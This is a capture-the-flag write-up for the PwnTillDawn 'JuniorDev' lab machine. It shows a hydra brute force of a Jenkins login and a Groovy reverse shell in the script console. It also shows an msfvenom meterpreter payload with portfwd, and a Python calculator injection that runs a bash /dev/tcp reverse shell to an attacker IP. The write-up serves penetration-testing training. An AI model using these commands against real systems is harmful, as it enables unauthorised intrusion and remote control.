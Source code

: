 ```yaml
---
title: JuniorDev Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 11:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, jenkins, portfwd, python]
math: true
mermaid: true
image:
  src: ![image](https://user-images.githubusercontent.com/67085453/143765869-f4b70e8d-17d3-4e92-9311-e28dd167b4c9.png)
  width: 800
  height: 500
---
```


![image](https://user-images.githubusercontent.com/67085453/143765891-34e88ab8-1881-47a1-90de-e588c3eea925.png)<br>

**> Information Gathering**<br>
Started with the usual nmap scan and from the scan we can see active ports. port 22 (ssh) & port 30609 (jetty 9.4.27).<br>
![image](https://user-images.githubusercontent.com/67085453/143765662-e120b52a-a05e-4665-b2a1-55e4dacfe4d9.png)

<br>
Upon visiting the web service running on port _30609_, i found a login screen.<br>
![image](https://user-images.githubusercontent.com/67085453/143765631-f7e788fc-8e83-4b1c-a97b-a639e13632de.png)<br>


Since we dont have any credentials, the best option is to *bruteforce* the target web login. Below is the hydra command used<br>
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`<br>
![image](https://user-images.githubusercontent.com/67085453/143765717-ed681b4b-3abe-43cb-b3c7-609f419e7275.png)<br>

Hydra yield positive results. We have found the password for the admin user. The next step is to login on jetty webapp running on port 30609. *username == admin* & *password == matrix*<br>
![image](https://user-images.githubusercontent.com/67085453/143765743-22635b7b-a430-4f4a-889a-454bde37f372.png)<br>
     

The credentials worked we are logged in now.<br>
![image](https://user-images.githubusercontent.com/67085453/143765751-202149be-2d13-4ce7-b865-b7b839156884.png)<br>

After a short googling on how to abuse jenkins script console to rce we found a good post from <a href="https://github.com/gquere/pwn_jenkins">gquere</a>. With this information, we were able to build a script to test remote code execution on the target. <br>
![image](https://user-images.githubusercontent.com/67085453/143765761-0e7da699-8773-49fa-8df6-e511967f33a7.png)<br>


Now  that we can execute commands on the target, its time to spawn a reverse shell. Below is the script I used.
```shell
String host="10.66.67.114";  
int port=9001;  
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
<br>
![image](https://user-images.githubusercontent.com/67085453/143765793-ff14889e-8cdb-4b2b-b144-003ab641c429.png) <br>


**> Post Exploitation**<br>
After i got a shell, post enumeration phase begins. I transfered linpeas to the target, changer permissions and executed linpeas. In linpeas output, i found a port binded to the _loopback address(127.0.0.1:8080)_.<br>
![image](https://user-images.githubusercontent.com/67085453/143765907-412f03af-7170-4dc5-b840-ee0835a53718.png)<br> 

Port 8080 is mostly used for web services. To confirm, i tried `wget` on the ort since `curl` is not found on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143765930-93ced860-08cc-4b92-827d-24a5ff158593.png)<br>

Reading the fetched `index.html` from port 8080 indicates that there is a web webapp running internally.<br>
![image](https://user-images.githubusercontent.com/67085453/143765946-d1c2a430-0af0-49ab-b1fd-83f18ddc019c.png)<br>

To access this internal web service, we have to port-forward port 8080 from the target to our attacking machine. To do this, i created a linux payload using `msfvenom`. <br>
``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=9002 -f elf -o 9002msf``<br>
![image](https://user-images.githubusercontent.com/67085453/143765952-d511e7e9-e049-4a7a-9360-38e69b2548d4.png)<br>

The next thing to do is to transfer the payload to the target and execute it while msfconsole is listerning fortrt incoming connections.<br>
![image](https://user-images.githubusercontent.com/67085453/143765957-aa29bf3e-872b-4760-b63b-ffedb1e21e22.png)<br>

When the payload is executed on the target, we should recieve a connection back on `msfconsole`. Once the connection is in, we can port-forward the target intertnal port `8080` to our attacking machine using the `portfwd`command in msfconsole<br>
`portfwd add -l 8080 -p 8080 -r 127.0.0.1`<br>
![image](https://user-images.githubusercontent.com/67085453/143765963-00518744-c295-44f9-820a-9db9a7dcfcbf.png)<br>

Now that we the target port `8080` connected back to our attacking machine, wehn visited, we found a python maths console.<br>
![image](https://user-images.githubusercontent.com/67085453/143765968-cf05e59b-727e-4377-ac76-ba25ed07ce10.png)<br>

Since it's a simple python maths calculator, we can easily bypasss the pythin functions and gain a remote code execution. To do this, we will use `__import__("os").system("")`<br>

We created a bash file with contains our bash reverse liner. a simple bash script, transfered the bash file to the target. 
```shell
#!/bin/bash
bash -c  'bash -i>&/dev/tcp/10.66.66.78/9002 0>&1'
```
<br>

Once our bash file is on the target, we can execute the bash file using the pythin calculator. We simply do this using the command
`__import__("os").system("/bin/bash /tmp/shell.sh")`<br>
![image](https://user-images.githubusercontent.com/67085453/143765976-251cd43b-7e6d-4852-895b-6b2ba81033c9.png)<br><br>


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
